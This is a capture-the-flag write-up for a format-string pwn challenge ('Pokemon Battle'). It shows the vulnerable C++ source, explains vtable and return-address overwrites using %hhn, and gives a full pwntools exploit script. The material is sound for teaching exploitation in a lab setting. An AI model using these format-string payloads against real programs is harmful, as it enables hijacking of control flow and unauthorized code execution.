





## Pokemon Battle


### Description
>Author: Neobeo\
>Gary wants to challenge you to a virtual battle. Be sure to choose your pokemon well! Here's an early leak of the game, but you should know that it's incomplete and there's currently no way to win.\
>nc fun.chall.seetf.sg 50005\
>MD5: a07506f402f6a3b18ca8ee5f5642a570


### Gain Shell
Format string vuln challenge with given source code c++ for the challenge. The source code its look like this
```c++
// g++ pokemonbattle.cpp -w -o pokemonbattle
#include <iostream>

struct {
    char pokemon[13]; // longest pokemon name is 12 letters (Crabominable)
    virtual void Battle() {
        printf("Let the battle begin...\n");
        // @todo: implement an actual battle
        printf("Your pokemon was defeated. You blacked out!\n");
    }
    virtual void Play() {
        printf("Choose a pokemon: ");
        std::cin.getline(pokemon, sizeof pokemon);
        printf(pokemon);
        printf(", I choose you!\n");
        Battle();
    }
} battler;

int main() {
    battler.Play();
}

void win() {
    system("cat flag.txt");
}
```

The PIE was enabled, and we only have one formatstring with 13 size of input. Where to overwrite?\
In C++, we can overwrite **vtable** of **battler**. Look here at gdb:

The program will `call rdx` and rdx come from **vtable of battler**, if we overwrite the vtable to another address and that address contains address of **win** then gameover! We got the shell. Simply our goal is like this

```
Before:
0x555555558150 (batler) -> 0x555555557d68 (vtable) -> 0x5555555551ea (Battle())

After:
0x555555558150 (batler) -> (any_address) -> (win())
``` 

To do our goal before it will write many input and its too complicated. So change our goal to overwrite the return address of **Battle()**


So we need an address which contain address of win(). Because the PIE was enabled we need find the value near the addres of win. Luckily we have one.\

Now how to overwrite the vtable? We only have one time formatstring. And the formatstring is in **BSS** not in stack, so we cant use technique like usual.\

Alright, first we need more than one formatstring, to do that we need overwrite vtable to **Play()** again.


So we must overwrite just 1 bytes vtable from **0x68** to **0x70**. To do that because the address of battler is at offset 7 on formatstring. We can use that offset to overwrite the vtable.

So if we input like `%7$n` on formatstring vuln. It will overwite to the inside of that address. For example we got leak address of **battler** with input `%7$p`. So if we input like `%10c%7$n` the address of **battler** will be like this `0x555555558150 (battler) -> 0x000000000000000a`. We just need ovewrite 1 bytes so we use **$hhn** instead of **$n**

```py
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)
```



Now we have unlimited formatstring. If you look at the stack rightnow the stack step back 0x20.\


Its because when we call **Play()** again the stack reduced by 0x20. Our goal is to overwrite address of return which is located at
`0x7fffffffdd78 -> 0x00005555555552b7 (return main+20)`. But we dont have that stack on any offset at formatstring.\
But we do have `0x7fffffffdd70` at offset 8 and `0x7fffffffdd80` at offset 12.

```
0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd80 (offset 12)
```

Like we overwrite the vtable before, if we do `%8$n` it will overwrite the address in `0x7fffffffdd70`. So how we do like this.
```
Overwrite value offset 8 to 0x78, %120c%8$hhn
The address will be like

0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd78 (offset 12)
0x7fffffffdd78 -> 0x00005555555552b7
```
So when we input %12$p it will become `0x00007fffffffdd78` with this we can overwrite the return address!. Oh I told before after we back to **Play()** again, the stack move 0x20, so the offset will be move everytime we do a formatstring. And found the correct offset for the addresss `0x00007fffffffdd78` is **16**.

```py
#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

p.sendline("%16$p")
#0x7fffffffdd78
```

Alright with this we can simply do the sametrick when we do `%16$n` it will overwrite the return address which is the **main()** function. After that just overwrite vtable back to **Battle()** and we got shell!. Because there's stack alignment error when call **win()** function. Instead of overwrite to start address of **win()** we overwrite to here
```bash
pwndbg> p &win
$1 = (<text variable, no debug info> *) 0x5555555552be <win()>
pwndbg> disass 0x5555555552be
Dump of assembler code for function _Z3winv:
   0x00005555555552be <+0>:	endbr64 
   0x00005555555552c2 <+4>:	push   rbp
   0x00005555555552c3 <+5>:	mov    rbp,rsp
   0x00005555555552c6 <+8>:	lea    rdi,[rip+0xdaa]        # overwrite to here
   0x00005555555552cd <+15>:	call   0x5555555550c0 <system@plt>
```
Overwrite to **0xc6**.\
Full script:

```py
from pwn import *
from sys import *

context.log_level = 'warning'
elf = context.binary = ELF("./pokemonbattle")
p = process("./pokemonbattle")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50005

cmd = """
b*0x555555555274
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

# p.sendline("%16$p")
# #0x7fffffffdd78

#gdb.attach(p,cmd)
payload = f"%{0xc6}c"
payload += "%16$hhn"
p.sendline(payload)


payload = f"%{0x68}c"
payload += "%7$hhn"
p.sendline(payload)
p.interactive()
```